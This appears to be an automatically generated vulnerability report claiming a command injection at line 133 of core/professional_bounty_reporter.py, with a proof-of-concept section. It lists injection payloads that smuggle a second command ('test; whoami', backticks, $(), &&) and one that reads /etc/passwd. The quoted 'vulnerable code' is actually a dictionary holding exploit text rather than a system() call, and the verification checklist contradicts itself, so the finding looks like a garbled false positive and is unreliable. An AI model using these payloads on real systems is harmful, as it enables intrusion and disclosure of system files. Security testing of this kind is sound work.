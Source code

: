 
#### 🔍 Technical Details

**Vulnerable Code Snippet**:

```python
            'exploit_payload': '127.0.0.1; cat /etc/passwd',
            'exploit_steps': [
                '1. Identify user input parameter that flows to system() call',
                '2. Inject command separator (;) followed by malicious command',
                '3. Execute payload to read /etc/passwd or other sensitive files',
```

**Vulnerability Analysis**:
C system() call

---

#### ✅ Verification

**Validation Method**: Static Analysis + Function Detection

**Verification Steps Completed**:
- ✓ No shell=False protection
- ✗ No dangerous function found
- ✓ No input validation
- ✓ User input flows to command
- ✓ Generated command injection PoC

---

#### 🎯 Proof of Concept

```
# Command Injection Proof of Concept
# Target: core/professional_bounty_reporter.py
# Line: 133

## Test Payloads:
1. test; whoami
2. test| whoami
3. test$(whoami)
4. test`whoami`
5. test&& whoami

## Expected Behavior:
- Additional command should execute on server
- Output should include results of injected command

## Verification Steps:
1. Inject payload into user input field
2. Check application response for command output
3. Monitor server logs for command execution
4. Use safe commands only (whoami, pwd, ls)

⚠️ WARNING: Do not test destructive commands

```
